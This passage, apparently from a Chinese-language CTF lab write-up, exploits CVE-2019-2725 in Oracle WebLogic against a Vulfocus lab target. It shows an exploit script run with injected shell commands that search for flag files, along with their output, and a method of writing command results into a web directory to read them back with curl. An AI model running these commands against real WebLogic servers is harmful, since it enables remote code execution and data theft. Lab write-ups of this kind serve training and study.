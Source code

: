 **Flag搜索结果**:

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: find / -name '*flag*' 2>/dev/null
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                               
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "cat /flag /tmp/flag* /flag.txt 2>/dev/null || echo 'Flag not found in common locations'"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: cat /flag /tmp/flag* /flag.txt 2>/dev/null || echo 'Flag not found in common locations'
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
                                                                                                                                               
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 manual_exploit.py http://10.37.133.3:7001 "grep -r 'flag' /tmp /var /home 2>/dev/null | head -10"

[*] 攻击目标: http://10.37.133.3:7001/wls-wsat/CoordinatorPortType
[*] 执行命令: grep -r 'flag' /tmp /var /home 2>/dev/null | head -10
[+] HTTP状态码: 500
[+] 响应长度: 5287 字节
[+] 可能攻击成功 (HTTP 500通常表示反序列化触发)
```

**Flag获取分析**:**命令输出限制**

- 虽然所有命令都成功触发了反序列化漏洞（HTTP 500状态码），但命令的输出结果没有直接在HTTP响应中返回
- 这是CVE-2019-2725的一个特点：ProcessBuilder执行命令但不会将输出回显到HTTP响应中
- 需要使用其他技术来获取命令执行结果，如反向shell或文件写入

**替代获取方法**:

根据[Oracle官方安全公告](https://www.oracle.com/security-alerts/alert-cve-2019-2725.html)和[Exploit-DB上的CVE-2019-2725利用代码](https://www.exploit-db.com/exploits/46780)，我们可以使用更高级的payload来获取命令输出：

**方法一：文件写入到Web目录**

```bash
# 尝试将flag写入Web可访问目录
python3 manual_exploit.py http://10.37.133.3:7001 "find / -name '*flag*' 2>/dev/null > /u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_user/console/console.war/flag_result.txt"

# 然后通过Web访问获取结果
curl http://10.37.133.3:7001/console/flag_result.txt
```
